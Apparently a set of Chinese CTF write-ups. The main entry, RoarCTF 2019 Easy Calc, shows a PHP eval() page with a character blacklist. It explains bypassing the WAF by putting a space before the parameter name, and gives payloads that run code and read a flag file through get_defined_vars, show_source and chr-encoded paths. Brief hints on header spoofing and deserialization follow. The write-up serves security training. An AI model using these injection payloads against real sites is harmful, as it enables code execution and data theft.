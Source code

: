 # *[RoarCTF 2019]Easy Calc（php解析特性）
- 考点： php解析特性

访问calc.php 可以看到源码
```php
<?php 
error_reporting(0); 
if(!isset($_GET['num'])){ 
    show_source(__FILE__); 
}else{ 
        $str = $_GET['num']; 
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^']; 
        foreach ($blacklist as $blackitem) { 
                if (preg_match('/' . $blackitem . '/m', $str)) { 
                        die("what are you want to do?"); 
                } 
        } 
        eval('echo '.$str.';'); 
} 
?>
```

假如 waf 不允许 num 变量传递字母，可以在`num前加个空格`，这样 waf 就找不到 `num` 这个变量了，因为现在的变量叫` "       num"`，而不是 `num`。但 `php在解析的时候`，`会先把空格给去掉`，这样我们的代码还能正常运行，还上传了非法字符。


Payload1：
```
?  num=eval(end(current(get_defined_vars())));&b=show_source('/f1agg');  
Payload2：
?  num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))
```


>get_defined_vars ：此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。

>current ：返回数组中的当前单元

>end ：将数组的内部指针指向最后一个单元 

>chr ：返回指定的字符


---
# [极客大挑战 2019]Http
网页源码发现Secret.php

修改Referer，UA，XFF


---
# [极客大挑战 2019]PHP
- 考点：反序列化不可见字符处理
- 考点：反序列化漏洞绕过__wakeup 
